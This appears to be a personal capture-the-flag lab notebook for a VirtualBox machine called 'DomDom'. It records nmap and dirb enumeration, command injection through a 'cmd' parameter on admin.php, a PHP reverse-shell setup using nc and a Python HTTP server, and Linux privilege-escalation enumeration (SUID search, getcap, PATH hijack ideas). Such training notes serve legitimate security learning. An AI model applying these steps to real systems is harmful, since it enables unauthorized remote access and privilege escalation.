 

---

**S1REN's Template Reference**

\[OS]: Ubuntu
\[Web-Technology]:  http://192.168.100.7:80
\[Hostname]:  
\[IP]:  192.168.100.7
\[USERS]:   
\[CREDENTIALS]:  

---
\[To-Try LIST]:  

User form - inputs sanitised

Fuzzing

Check GTFO Bins

---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:8F:4A:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16


--- 

\[Web Services Enumeration]:   


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)

|     Path: http://192.168.100.7:80/
|     Form id: user_form
|_    Form action: index.php
| http-enum: 
|_  /admin.php: Possible admin folder

Nothing at 

Dirb:
/server-status
/admin.php


SQLi - no results
Fuzzing no results
Brute forcing?
Code Eval/Injection - ACE?

Burpsuite
![[Pasted image 20250829104104.png]]

forward admin.php -> command executed
![[Pasted image 20250829104511.png]]

try execute id `name=admin&username=admin&password=admin&access=access&cmd=id`
![[Pasted image 20250829104706.png]]


code was executed. Now run reverse shell (w/ machine IP) nc and host it on webserver


```
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 9999
nc -nlvp 1234 
```

![[Pasted image 20250829105936.png]]
![[Pasted image 20250829110029.png]]
![[Pasted image 20250829110044.png]]



---


\[OTHER / PRIVILEGE-ESCALATION]:   
S1ren get that tty
www-data
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export TERM=xterm-256color  
alias ll='ls -lsaht --color=auto'  
stty raw -echo ; fg ; reset  
stty columns 200 rows 20

cd home

# Saw domdom user here 
cd domdom

# but no perms for reading /Desktop/Readme

which gcc #and cc, wget all positive

file /bin/bash
uname -a #Ubuntu 16.04 LTS


sudo -l #no luck needs passwd
groups #www-data, sudo
env # PATH has /tmp - if privileged binary runs without path then malicious could be planted her

#SUID/SGID
find / -perm -u=s -type f 2>/dev/null # pkexec, fusermount, mount/umount/fstab??
find / -perm -g=s -type f 2>/dev/null # crontab, mlocate, ssh-agent


# Granted Implicit
getcap -r / 2>/dev/null #/usr/bin/systemd-detect-virt 


```


--- 
Take Away Concepts: 



HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
